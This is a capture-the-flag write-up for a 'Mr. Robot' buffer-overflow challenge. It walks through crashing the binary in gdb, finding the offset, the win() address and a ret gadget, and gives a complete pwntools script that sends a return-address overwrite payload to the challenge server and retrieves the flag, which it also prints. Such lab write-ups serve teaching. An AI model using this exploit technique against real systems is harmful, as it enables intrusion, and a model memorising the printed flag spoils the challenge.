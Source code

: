 ```yaml
---
layout: writeup

title: Mr. Robot
difficulty: hard
points: 500
categories: [pwn]
tags: []

flag: CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713}
---
```


### Mr. Robot

* Author: Aakansh Gupta (Unknown)


Classic Buffer Overflow CTF.
Connecting to the server through netcat gives:

```bash
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety? 
Enter your answer > 

```

Any answer to this returns:
```bash
┌──(kali㉿kali)-[~/Desktop/Cyscom/3]
└─$ nc 20.244.12.130 50001
Who is the leader of fsociety? 
Enter your answer > Elliot Alderson
You aren't thinking straight Elliot!

```

We try to decompile the file using decompilers like gdb and check breakpoints after entering a huge value:

```bash
pwndbg> run
Starting program: /home/kali/Desktop/Cyscom/3/vuln 
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Who is the leader of fsociety? 
Enter your answer > aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa  

Program received signal SIGSEGV, Segmentation fault.

```
Use this data to find the value overriden by the RIP register. Use ` cyclic -l 0x6161616b6161616a ` (for example only) to find offset vlaue with RIP register. 
Now find the ` win() ` function address within gdb using `print win `. Similarly, find the ret gadget using ` ROPgadget --binary ./vuln --only "ret" ` outside gdb.
We are using a `pwntools` exploit script to automatically run and get the flag from the server using the values we found.

```python
from pwn import *

context.arch = 'amd64'

offset = 72
win_address = 0x4011b6
ret_gadget = 0x401016

p = remote("20.244.12.130", 50001)

payload = b'A' * offset + p64(ret_gadget) + p64(win_address)

log.info(f"Payload: {payload}")

p.recvuntil(b'> ')
p.sendline(payload)

p.interactive()

```

Running the script produces the output as the required flag.
<img src="../images/mrobotflag.png" />


### The flag found is:
## CBCV{BuFf3r_0v3rF10W_1s_s1mpL3_9713}
